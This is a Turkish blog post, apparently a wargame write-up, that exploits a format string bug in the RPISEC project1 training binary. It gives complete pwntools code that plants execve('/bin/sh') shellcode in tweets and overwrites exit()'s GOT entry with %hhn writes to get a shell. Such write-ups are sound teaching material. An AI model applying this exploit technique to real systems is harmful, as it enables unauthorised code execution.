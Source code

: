 ```yaml
---
title: "Savaş Oyunları: Format İpliklerinin Dönüşü Part III"
tags: ['pwn']
date: 2018-12-13
---
```


## Table of contents

<TOCInline toc={props.toc} exclude="Table of Contents" toHeading={2} />

Admin olmayı başardım ancak bu tek başına birşey ifade etmiyor. Çünkü program admin olan bir kullanıcıya tweetlerin adreslerini göstermekten başka bir fonksiyon sunmuyor. Programda zafiyetler var mı incelemem gerekecek.

<div>
![img](/static/images/2018-12-13-rpisec_project1_pt3/imback.gif)
</div>

İlk aradığım zafiyet türü buffer overflow. Ancak programı yazan kişi gayet iyi yazmış, tüm inputlar bufferların uzunluğuna göre alınıyor. İkinci olarak printf tarzı fonksiyonlarda yanlış kullanım var mı diye ararken sym.print_menu altında dikkatimi şu kısım çekiyor:

<div>
![img](/static/images/2018-12-13-rpisec_project1_pt3/1.png)
</div>

Bu kısım menüdeyken küçük penguenin yanına son girdiğimiz tweeti yazdırıyor. Ancak normal kullanıcı için sağdaki, admin olan kullanıcılar için ise soldaki blok çalışıyor. Küçük bir problem var, soldaki blokta tweetim printf fonksiyonuna ilk argüman olarak veriliyor. Bu da demektir ki:

FORMAT STRING ZAFİYETİ BULDUM!!

Küçük sevinç çığlıklarından sonra bu zafiyeti nasıl kullanacağımı planlamam lazım. İlk deneyeceğim şey GOT tablosundan bir fonksiyonun adresini değiştirip kendi yazdığım shellcode'a yönlendirmek. Bunun için shellcode'umu tweetlerin içinde tutabilirim. Tek sorun, tweetler 16 byte boyutunda. Bütün bunları hesaba katıp kendime bir yol çizdim:

- Shellcode'u tweet olarak programa ver.
   - 16 byte bir shellcode için küçük olacak. "/bin/sh" kısmını önden bir tweete yükleyip kodun kalanını sonraki tweette saklayabilirim.
- Son tweet ile format string zafiyetini kullanıp sym.exit()'in GOT girdisini shellcode'a yönlendir.
- Programdan çıkış yaparak exit() fonksiyonunun çağrılmasını sağla.


## 1. Shellcode'un programa yüklenmesi
Python scriptime debug modunu açıp "/bin/sh" tweetini atan kısmı ekliyorum:

```python
log.info(io.recv())
io.sendline("6")
log.info(io.recvuntil("Enter Choice: "))
io.sendline("1")
# program son karaktere mudahele ediyor
io.sendline("/bin/sh\x00/")
```

Hemen ardından tweetin bellekteki adresini okumam gerekecek.

```python
io.recv()
io.sendline("2")
tweet_list = io.recv()
binsh = int(tweet_list.split("\n")[-7].split(" ")[-1], 16)
log.info("binsh address: {}".format(hex(binsh)))
```

Şimdi shellcode'umu oluşturup programa verebilirim.

### Zeytinli shellcode tarifi:

```python
shellcode  = "xor ecx, ecx\n"
shellcode += "imul ecx\n"
shellcode += "mov al, 0x0b\n"
shellcode += "mov ebx, 0x{}\n".format(binsh)
shellcode += "int 0x80\n"
shellcode = asm(shellcode)
```

13 byte'lık shellcode'um hazır. Şimdi bunu programa yüklüyorum.

```python
io.recv()
io.sendline("1")
io.sendline(shellcode)
io.sendline("")
```

Shellcode'umun adresini de okuyorum.

```python
io.recv()
io.sendline("2")
tweet_list = io.recv()

shellcode_address = int(tweet_list.split("\n")[-8].split(" ")[-1], 16)
log.info("Shellcode @{}".format(hex(shellcode_address)))

io.send("\n")
```

## 2. Format string zafiyetini kullanarak GOT girdisini değiştirmek

Sırada exit fonksiyonunun GOT girdisini değiştirmek için format string zayifetini kullanmam gerekiyor. Pwntools bunun için hazır fonksiyonlara sahip ama şimdilik kendi kodlarımla idare edeceğim. Ancak yine 16 byte sınırı ile karşı karşıyayım. Birden fazla tweet kullanarak adresi parça parça değiştirmek zorunda kalacağım.

```python
exitgot = binary.got["exit"]
# byte byte yaziyorum
for i in range(4):
    io.recv()
    io.sendline("1")

    # padding gerekli
    line  = "A"
    line += p32(exitgot+i)
    byte2write = (shellcode_address & (0xff << i*8)) >> i*8
    log.info("Writing {} to address {}".format(hex(byte2write),
                                               hex(exitgot+i)))
    byte2write |= 0x100
    byte2write -= len(line)
    line += "%" + str(byte2write) + "x"
    line += "%8$hhn"

    io.sendline(line)
    io.sendline("")

io.interactive()
```

## 3. Programdan çıkış(!)

Scriptim buraya kadar çalıştıktan sonra programdan çıkış yapmak istediğimde exit() fonksiyonunu çağırmaya çalışacak ve shellcode'uma düşecek.

<div>
![img](/static/images/2018-12-13-rpisec_project1_pt3/2.png)
</div>

Ve shellcode çalıştı. Projeyi sonunda tamamladım. Scriptin en son halini [githubda](https://gist.github.com/erfur/40809ac0184070341ee27279ab2402dc) bulabilirsiniz. İlk konular ile alakalı bir proje olduğu için güncel korumaların hepsi kapalıydı (ASLR dahil). İleride daha güncel yöntemlerin kullanıldığı projelerde görüşmek üzere.

Connection closed by foreign host.